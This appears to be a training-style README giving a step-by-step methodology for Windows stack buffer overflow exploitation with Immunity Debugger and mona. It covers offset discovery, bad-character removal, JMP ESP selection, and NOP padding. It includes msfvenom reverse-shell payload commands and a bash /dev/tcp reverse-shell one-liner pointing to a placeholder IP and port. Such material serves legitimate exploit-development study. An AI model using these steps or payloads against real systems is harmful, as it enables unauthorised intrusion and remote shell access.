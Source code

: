 # methodology

## Getting OFFSET and EIP

1. Run Immunity Debugger as administrator
2. Configure Mona working folder using `!mona config -set workingfolder c:\kashz\%p`
3. Run `fuzzer.py` and note the crash byte number
4. Generate pattern 400 bytes more than crash using msf: `msf-pattern_create -l <number>`
5. set `PAYLOAD = <generated-alue>`
6. Run `exploit.py` and find offset
    1. Using mona: `!mona findmsp -distance <number>`. Should show in log windows
       as `EIP contains normal pattern : 0x6f43396e (offset 1978)`
    2. [OR] using msf: `msf-pattern_offset -l <number> -q <EIP>`
7. set `OFFSET = value`, set `PAYLOAD = ""`, set `RETURN = iiii` value of 0x69696969.
8. Run `exploit.py`
9. Program (should) crash with EIP = 69696969

## Finding BadChars using !mona

1. Generate byte-array using mona excluding the `\x00` null byte using `!mona bytearray -cpb "\x00"`
2. set `PAYLOAD = ( generated-byte-array )`
3. Run `exploit.py`
4. Note ESP and find barChar using `!mona compare -f C:\kashz\PROJECT_NAME\bytearray.bin -a <ESP_address>`
5. Remove 1st badChar from mona byte-array and generate new `!mona bytearray -cpb "\x00\xXX"`
6. Remove the badChar from `PAYLOAD` in `exploit.py`
7. Continue steps 3-6 until mona memory corruption log output says `STATUS = UNMODIFIED`

## Finding JMP using !mona

Note: **ALL badChars** are needed to find the JMP instruction.

1. Locate all JMP ESP using `!mona jmp -r esp -cpb "\x00\xXX"`
2. Select the one, for which ASLR and other security protections are FALSE.
3. Windows requires little endian style. So,
    1. if JMP instruction is  `0x12345678`.
    2. Take 2 letter from right-to-left and form return address
    3. return address is `0x\78 \0x56 \0x34 \0x12`
    4. set `RETN = 0x\78\0x56\0x34\0x12` in `exploit.py`

## Generate msfvenom Payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "badChars" -f c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "badChars" -f c

# windows under linux (wine)
bash -i >& /dev/tcp/IP/PORT 0>&1
```

set `PAYLOAD = ( payload )`

## Prepend NOPs (\x90)

Usually an encoder will be used to generate the msfvenom payload which requires memory space to unpack.
set `PADDING = "\x90" * 16` in `exploit.py`

# Manual Process

## Finding BadChars manually

If by any chance, mona is adding new badChars after every removal of possible badChar, time to do it manually. Follow
the same process but instead of mona to check for badChar use the following method.

1. (top-menu option) View > CPU window > (top right register pane) right-click ESP > follow dump
2. (bottom left hexdump pane) same CPU windows - see all bad chars in line
3. read thoroughly and check if all byte-array-chars are in order.
    1. If any char is skipped or missing - it is a badChar
    2. If byte-array-chars are missing after a specific char - that is a badChar
    3. Remove one char at a time until you reach the last \0xff.

## Finding JMP manually

Note: **ALL badChars** are needed to find the JMP instruction.

1. view > CPU window
2. (top left pane) right click > Search for > All Commands in all modules > JMP ESP > search
3. Choose JMP Address with Green color and module name (as the file running)
4. Follow the above process to create little endian style return address
